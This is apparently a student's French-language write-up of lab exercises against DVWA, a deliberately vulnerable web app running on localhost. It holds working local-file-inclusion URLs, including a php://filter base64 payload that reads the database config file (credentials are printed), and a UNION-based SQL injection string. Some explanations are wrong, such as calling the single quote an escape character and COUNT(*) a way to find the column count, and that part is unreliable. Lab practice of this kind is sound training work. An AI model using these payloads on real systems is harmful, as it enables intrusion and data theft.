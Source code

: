 ## Exercice 7 – (Local File Injection)
*Objectif : Exploiter la faille de LFI pour afficher le contenu du fichier de configuration de la connexion à MySQL (« /config/config.inc.php »).*

```http://localhost:8080/vulnerabilities/fi/?page=/config/config.inc.php```

- Pourquoi ai-je une page blanche ?
	- **Car c'est un fichier PHP et qu'il s'exécute. Pour remédier à cela, on l'encode en base 64 :**
```http://localhost:8080/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=../../config/config.inc.php"```

**Résultat**
```php
<?php 
$DBMS = 'MySQL'; 
$_DVWA = array(); 
$_DVWA[ 'db_server' ] = '127.0.0.1'; 
$_DVWA[ 'db_database' ] = 'dvwa'; 
$_DVWA[ 'db_user' ] = 'root'; 
$_DVWA[ 'db_password' ] = 'tpouaibe'; 
$_DVWA[ 'db_port '] = '5432'; 
$_DVWA[ 'recaptcha_public_key' ] = '6LdK7xITAAzzAAJQTfL7fu6I-0aPl8KHHieAT_yJg'; 
$_DVWA[ 'recaptcha_private_key' ] = '6LdK7xITAzzAAL_uw9YXVUOPoIHPZLfw2K1n5NVQ'; 
$_DVWA[ 'default_security_level' ] = 'low'; 
$_DVWA[ 'default_phpids_level' ] = 'disabled'; 
$_DVWA[ 'default_phpids_verbose' ] = 'false'; ?>
```

## Exercice 8 – (Injection SQL)
*Objectif : Rendez vous sur la page « SQL injection » et trouver quel caractère provoque des messages d’erreurs SQL*

**La simple quote ``'`` provoque une erreur**  
- Pourquoi ce caractère provoque t-il une erreur ? 
	- **Car c'est un caractère d'échappement**
- En quoi ce type de message peut-il nous aider ?
	- **Car cela nous donne des informations sur la manière dont on peut injecter du code SQL**


## Exercice 9 – (Injection SQL)
*Objectif : Trouver le nombre de colonnes visibles*
```sql
' UNION SELECT COUNT(*), table_name FROM information_schema.columns WHERE table_name="users";-- -
```
- Quels opérateurs SQL nous permettent de deviner le nombre de colonnes ? 
	- **COUNT(*)**
- A votre avis, pourquoi est-il nécessaire de connaître le nombre de colonnes ? 
	- **Pour UPDATE/DELETE il faut connaître le nombre de colonnes**
-  A votre avis, à quoi ces colonnes visibles pourront-elles servir ?
	- **Modifier/supprimer des informations dans la base de données**


